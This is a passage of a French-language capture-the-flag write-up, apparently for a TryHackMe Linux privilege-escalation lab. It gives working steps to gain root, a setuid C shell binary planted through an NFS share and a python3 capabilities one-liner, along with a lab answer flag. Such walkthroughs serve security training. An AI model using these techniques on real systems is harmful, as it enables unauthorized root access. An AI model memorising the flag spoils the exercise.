 ### Sur ma machine attaquante :

```bash
$ mkdir /mnt/share
$ sudo mount -o rw <TARGET-IP>:/mnt/nfs_share /mnt/share  # Monter le partage
$ cd /mnt/share                                         # Se placer dans le dossier
```

Créer `escalate.c` :

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
   setuid(0);
   setgid(0);
   system("/bin/bash");
   return 0;
}
```

Compiler et setuid :

```bash
$ gcc escalate.c -o r00t_bin
$ chmod +s r00t_bin
```

### Sur la machine cible :

```bash
$ /mnt/nfs_share/r00t_bin   # Exécuter le binaire dans le partage
# whoami                    # Devient root
```

| Flag   | flag7.txt    |
| ------ | ------------ |
| Answer | THM-89384012 |

## ⚙️ Phase 8 : Capabilities

**Objectif :** Utiliser les POSIX capabilities pour escalader.

### Sur la machine cible :

```bash
$ getcap -r / 2>/dev/null      # Lister les capabilities
```

Si `python3 = cap_setuid+ep` :

```bash
$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'  # Shell root
```

